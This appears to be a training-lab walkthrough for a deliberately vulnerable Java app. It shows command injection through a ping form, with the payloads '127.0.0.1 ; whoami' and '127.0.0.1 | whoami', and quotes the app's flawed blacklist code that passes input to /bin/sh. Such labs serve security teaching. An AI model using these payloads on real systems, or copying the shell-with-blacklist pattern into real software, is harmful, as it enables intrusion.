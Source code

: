 # Java - Command Injection 4 (CMD-4)

## Running the app Java

First make sure java is installed on your host machine. After installation, we go to the folder of the lab we want to practice. "i.e /skf-labs/XSS, /skf-labs/RFI/" and run the following command:

```
$ ./mvnw spring-boot:run
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

When we start the application we can see that we can ping an adress.

![](../../.gitbook/assets/nodejs/CMD4/1.png)

Let's try to ping 127.0.0.1

![](../../.gitbook/assets/nodejs/CMD4/2.png)

We get back the output of the ping command which tell us this might be vulnerable to a command injection.

## Exploitation

Let's try chaining commands

```
127.0.0.1 ; whoami
```

We get nothing back, maybe this application has a blacklist

```java
ip.replace("`", " ");
ip.replace(";", " ");
ip.replace("&", " ");
Process pb = new ProcessBuilder("/bin/sh", "-c",
    "ping -c1 " + ip + " > ./ping_output")
    .redirectErrorStream(true)
    .start();
```

We can see in this piece of code the app is removing certain dangerous characters in an attempt to avoid some kind of command injection. Unfortunately there are ways to bypass this blacklist approach. Let's try piping the commands:

```
127.0.0.1 | whoami
```

![](../../.gitbook/assets/nodejs/CMD4/3.png)

And we have a command injection!

## Additional sources

{% embed url="https://owasp.org/www-community/attacks/Command_Injection" %}

{% embed url="https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html" %}
